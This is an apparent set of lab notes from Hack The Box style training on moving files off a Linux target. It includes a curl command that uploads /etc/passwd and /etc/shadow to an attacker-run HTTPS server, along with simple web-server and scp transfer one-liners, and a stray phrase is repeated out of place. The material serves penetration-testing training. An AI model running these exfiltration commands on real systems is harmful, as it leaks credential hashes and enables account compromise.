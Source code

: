 as binary exploitation and packet capture analysis

## Web Upload
#### Pwnbox - Start Web Server
```shell-session
AhmaDb0x@htb[/htb]$ sudo python3 -m pip install --user uploadserver
```
#### Pwnbox - Create a Self-Signed Certificate
```shell-session
AhmaDb0x@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'
```
#### Pwnbox - Start Web Server
as binary exploitation and packet capture analysis

```shell-session
AhmaDb0x@htb[/htb]$ mkdir https && cd https
```

```shell-session
AhmaDb0x@htb[/htb]$ sudo python3 -m uploadserver 443 --server-certificate ~/server.pem
```

#### Linux - Upload Multiple Files
```shell-session
AhmaDb0x@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```
We used the option `--insecure` because we used a self-signed certificate that we trust.

## alternative

#### Web Server with Python3
```shell-session
AhmaDb0x@htb[/htb]$ python3 -m http.server
```
#### Web Server with Python2.7
```shell-session
AhmaDb0x@htb[/htb]$ python2.7 -m SimpleHTTPServer
```
#### Web Server with PHP
```shell-session
AhmaDb0x@htb[/htb]$ php -S 0.0.0.0:8000
```
#### Web Server with Ruby
```shell-session
AhmaDb0x@htb[/htb]$ ruby -run -ehttpd . -p8000
```
#### Download the File from the Target Machine onto the Pwnbox
```shell-session
AhmaDb0x@htb[/htb]$ wget 192.168.49.128:8000/filetotransfer.txt
```

## SCP Upload
```shell-session
AhmaDb0x@htb[/htb]$ scp /etc/passwd htb-student@10.129.86.90:/home/htb-student/

gunzip -S .zip upload_nix.zip
```

